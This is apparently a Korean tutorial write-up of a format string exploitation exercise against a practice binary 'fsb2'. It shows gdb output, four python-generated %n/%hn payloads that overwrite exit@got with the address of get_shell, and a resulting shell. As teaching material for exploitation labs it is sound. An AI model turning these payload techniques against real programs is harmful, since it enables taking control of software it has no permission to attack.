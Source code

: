 ```
(gdb) i func get_shell
All functions matching regular expression "get_shell":
Non-debugging symbols:
0x08048639  get_shell
(gdb) x/i exit
   0x8048490 <exit@plt>:	jmp    *0x804a024
```
```
//fsb2_exploit1
(gdb) r <<< $(python -c 'print "\x24\xa0\x04\x08%1024c%1$n"')
Starting program: ./fsb2 <<< $(python -c 'print "\x24\xa0\x04\x08%1024c%1$n"')
Input: $                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 










                $
Program received signal SIGSEGV, Segmentation fault.
0x00000404 in ?? ()
```
fsb2_exploit1은 1024 바이트만큼 출력해 exit@got를 1024dls 0x400값으로 덮어쓰는 공격 코드이다.   
"exit@got주소%1024c%1$n" 포맷 스트링을 사용하여 덮어쓴 결과 1024(0x400)이 아닌 0x404 값이 덮어써진 것을 확인할 수 있다.
이유는 다음과 같다.   
"n"은 출력한 문자의 길이 값을 전달된 인자에 쓰는 포맷 스트링이다. 공격 코드의 경우 "%1024c"를 통해 1024바이트만큼 출력했지만
앞 부분에 입력한 exit@got 주소, 즉 4바이트가 포함되어 있기 때문에 1028인 0x404 값이 덮어써진 것이다.
```
//fsb2_exploit2
$ (python -c 'print "\x24\xa0\x04\x08%134514229c%1$n"') | ./fsb2
```
fsb2_exploit2는 exit@got 주소를 get_shell 주소로 덮어쓰는 공격 코드이다.
이는 get_shell 주소인 134514233 바이트를 화면에 출력한 이후 값을 덮어쓰기 때문에 공격이 오래 걸리거나 TIMEOUT이 발생할 수 있다.
exit@got 주소를 2바이트, 혹은 1바이트씩 나눠 덮어쓰는 방법을 사용하면 이아 같은 문제를 해결할 수 있다.   
입력받을 수 있는 길이가 충분하다면 여러 개의 주소를 입력하여 여러 포인터를 참조하여 읽고 쓰는 것 또한 가능하다.
```
//fsb2_exploit3
$ (python -c 'print "\x26\xa0\x04\x08\x24\xa0\x04\x08%x.%x.%x"') | ./fsb2
Input: &$804a026.804a024.252e7825
```
fsb2_exploit3는 exit@got+2 주소와 exit@got 주소를 입력하고 "x" 포맷 스트링을 통해 출력한 결과이다.
출력된 결과를 확인해보면 두 개의 주소가 쓰여진 것을 확인할 수 있고 공격할 떄 또한 포맷 스트링 인자 중 각각 첫 번째 인덱스, 두 번쨰 인덱스를 참조한다면 두 개의 주소 모두 덮어쓸 수 있다는 것을 짐작할 수 있다.
2바이트를 나눠 덮어써서 공격을 하기 때문에 쓰는 값 또한 4바이트가 아닌 2바이트가 되어야 한다. 
이를 위해 "n"이 아닌 "hn" 포맷 스트링을 사용한다.
```
//fsb2_exploit4
$ (python -c 'print "\x26\xa0\x04\x08\x24\xa0\x04\x08%2044c%1$hn%32309c%2$hn"';cat;) | ./fsb2
uid=1001(theori) gid=1001(theori) groups=1001(theori)
```
fsb2_exploit4는 exit@got+2와 exit@got 주소를 참조하여 get_shell 함수로 덮어쓰는 공격코드이다.